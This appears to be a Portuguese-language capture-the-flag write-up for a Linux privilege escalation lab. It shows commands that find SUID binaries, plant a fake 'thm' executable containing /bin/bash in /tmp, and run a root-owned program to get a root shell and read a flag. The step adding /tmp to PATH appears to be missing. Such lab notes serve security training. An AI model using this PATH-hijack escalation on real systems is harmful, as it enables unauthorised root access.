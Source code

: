 ## Privilege Escalation: PATH

### What is the odd folder you have write access for?

```bash
sudo -l
find / -type f -perm -04000 -ls 2>/dev/null
#256346     20 -rwsr-xr-x   1 root     root               16712 Jun 20  2021 /home/murdoch/test
```

`/home/murdoch`

### What is the content of the flag6.txt file?

- Perceba q ele vai executar como root
    
    ```bash
    cd /home/murdoch
    ./test
    #sh: 1: thm: not found
    ```
    
- Entao vamos crirar esse `thm`
- Primeiro vamos procurar onde podemos escrever
    
    ```bash
    find / -writable -type d 2>/dev/null
    ```
    
- Vou usar no `/tmp`
    
    ```bash
    nano /tmp/thm
    ```
    
    - Conteudo
        
        ```bash
        /bin/bash
        ```
        
- Vamos dar premissao para o arquivo
    
    ```bash
    chmod 777 /tmp/thm
    ```
    
- Agora vamos executar o `./test`
    
    ```bash
    ./test
    ```
    
- Entao vamos pegar a flag
    
    ```bash
    find / -name flag*.txt 2>/dev/null
    cat /home/matt/flag6.txt
    ```
    